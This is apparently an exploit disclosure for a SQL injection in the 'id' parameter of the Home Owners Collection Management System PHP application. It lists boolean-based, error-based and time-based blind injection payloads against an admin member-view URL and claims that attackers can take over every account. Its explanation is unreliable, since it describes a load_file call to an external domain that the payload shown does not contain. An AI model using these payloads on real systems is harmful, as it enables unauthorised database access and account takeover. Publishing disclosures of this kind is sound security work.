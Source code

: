 ## [Home Owners Collection Management System](https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html)
### Exploit Title:Home Owners Collection Management System - id parameter SQL injection
## [Vendor](https://www.sourcecodester.com/users/tips23)
### Exploit Author: fuuzyap1

## Description:

The id parameter appears to be vulnerable to SQL injection attacks. The payload ```page=members/view_member&id=2' OR (SELECT 9041 FROM(SELECT COUNT(*),CONCAT(0x717a7a6a71,(SELECT (ELT(9041=9041,1))),0x7176717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'JPZH'='JPZH'``` was submitted in the id parameter. 
This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. 
The application interacted with that domain, indicating that the injected SQL query was executed.
The attacker can take account control of all accounts on this system.
Status: CRITICAL

vuln url:
```
http://localhost/admin/?page=members/view_member&id=2
```

[+] Payload:

```mysql

---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=members/view_member&id=2' AND 3866=3866 AND 'dhhU'='dhhU

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: page=members/view_member&id=2' OR (SELECT 9041 FROM(SELECT COUNT(*),CONCAT(0x717a7a6a71,(SELECT (ELT(9041=9041,1))),0x7176717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'JPZH'='JPZH

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=members/view_member&id=2' AND (SELECT 9083 FROM (SELECT(SLEEP(5)))NEeP) AND 'DwyE'='DwyE
---

```

## Reproduce:


## Proof and Exploit:
![image](https://user-images.githubusercontent.com/95869214/153038977-0138b5a9-1a05-470a-95ed-cf48991b6387.png)

